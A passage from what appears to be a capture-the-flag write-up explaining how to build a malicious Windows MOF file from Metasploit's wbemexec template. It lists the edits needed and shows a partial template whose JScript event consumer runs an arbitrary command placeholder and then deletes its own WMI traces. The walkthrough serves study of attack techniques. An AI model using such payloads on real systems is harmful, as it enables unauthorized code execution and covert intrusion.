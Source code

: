 #### Template

Because these are complex files, with a lot of room for error and not much in
the way of feedback, I took the approach of starting with the Metasploit
script for creating MOF files as a template (_July 2023 update_ : the file has
since been renamed in Metasploit -
[here](https://github.com/rapid7/metasploit-
framework/blob/7e5e0f7fc814fee55a1eca148c51f2344da65e59/lib/msf/core/exploit/wbemexec.rb)
is the file from when this post was published, and
[here](https://github.com/rapid7/metasploit-
framework/blob/master/lib/msf/core/exploit/wbem_exec.rb) is the current
version). Almost that entire script is a text string, where a few variables
are replaced to produce a mof file. Specifically, four updates are needed:

  * Replace `@CLASS@` with a random number
  * Replace `@EXE@` with command to run
  * Replace `#{mofname}` with a mofname - I’ll use `a.mof`
  * Fix escaping - Because the template is inside a ruby program, all of the `\`s are escaped. When writing a mof, we’ll reduce the escaping by one.

I’ll take care of three of those changes to create this template (leaving the
`@EXE@` for later):

    
    
      1 #pragma namespace("\\\\.\\root\\cimv2")
      2 class MyClass12588
      3 {
      4         [key] string Name;
      5 };
      6 class ActiveScriptEventConsumer : __EventConsumer
      7 {
      8         [key] string Name;
      9         [not_null] string ScriptingEngine;
     10         string ScriptFileName;
     11         [template] string ScriptText;
     12   uint32 KillTimeout;
     13 };
     14 instance of __Win32Provider as $P
     15 {
     16     Name  = "ActiveScriptEventConsumer";
     17     CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
     18     PerUserInitialization = TRUE;
     19 };
     20 instance of __EventConsumerProviderRegistration
     21 {
     22   Provider = $P;
     23   ConsumerClassNames = {"ActiveScriptEventConsumer"};
     24 };
     25 Instance of ActiveScriptEventConsumer as $cons
     26 {
     27   Name = "ASEC";
     28   ScriptingEngine = "JScript";
     29   ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"@EXE@\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass12588\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");}       catch(err) {};";
     30
     31 };
     32 Instance of ActiveScriptEventConsumer as $cons2
     33 {
     34   Name = "qndASEC";
     35   ScriptingEngine = "JScript";